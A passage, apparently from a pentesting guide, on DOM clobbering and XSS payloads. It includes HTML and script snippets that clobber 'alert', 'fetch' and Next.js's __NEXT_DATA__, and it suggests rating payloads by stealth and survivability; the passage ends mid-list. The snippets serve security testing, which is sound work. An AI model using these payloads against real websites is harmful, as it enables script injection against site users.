
## Payload Annotation for Targeted Use

Instead of a flat payload dump, annotate each one:

```html
<!-- Payload 12: Clobbers "alert" -->
<form id="alert"></form>
<script>alert('XSS');</script> <!-- Will throw -->
// ✅ Chrome, ❌ Firefox (strict mode fails)
```

Use icons to track:

- Stealth level
- Breaking potential
- Browser support
- Framework survivability (e.g., SSR, hydration)

---

## Clobbering in Frameworks (SSR, React, Angular, etc.)

Test payloads inside real rendering environments. These survive:

- **Sanitization**
- **Server-side rendering (SSR)**
- **Client hydration**

### Example: Next.js SSR Clobber

```html
<!-- SSR Payload: Exploit in Next.js -->
<div id="__NEXT_DATA__"></div>
<script>
document.getElementById('__NEXT_DATA__').innerHTML = `<form id="document"></form>`;
</script>
```

- Works in `hydrateRoot()` from React 18+
- Test across Vue/Nuxt/Angular/Jinja

---

## Clobbering Inside Dev/Framework Logic

DOM clobbering breaks actual developer assumptions:

```javascript
// Common logic vulnerable to DOM clobbering
if (typeof fetch === "function") {
  fetch("/api"); // Clobber fetch with <form id="fetch">
}
```

Also test:
